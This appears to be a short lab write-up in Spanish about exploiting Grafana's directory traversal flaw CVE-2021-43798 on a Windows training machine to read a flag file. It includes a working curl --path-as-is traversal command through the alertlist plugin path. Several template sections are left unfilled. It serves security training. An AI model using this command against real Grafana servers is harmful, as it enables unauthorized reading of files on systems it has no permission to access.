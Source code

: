 # Walk: Laboratorio 2 de Directory Traversal, maquina Windows

## Fecha: 18/01/2025
## Host: kali
## IP: 192.168.{subnet}.193

---

## Objetivo
- The target VM #2 runs **Grafana** on port 3000. The service is vulnerable to CVE-2021-43798, 
which is a directory traversal vulnerability. Search for ** "golangexample cve-2021-43798" **
in a search engine to get familiar with how the vulnerability can be exploited. 
**Use curl and the --path-as-is parameter to find the flag in C:\Users\install.txt.**

---
## Herramientas
1. tool - 1 
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: La propia consigna nos indica la vulnerabilidad y donde buscar..
	- Realizamos una pequena busqueda de la vulnerabilidad, para encontrar el **path** y buscamos donde nos indican.. 
	- **curl --path-as-is http://192.168.192.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt**
	- No hay en este caso **/etc/passwd** porque es una maquina windows.

---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

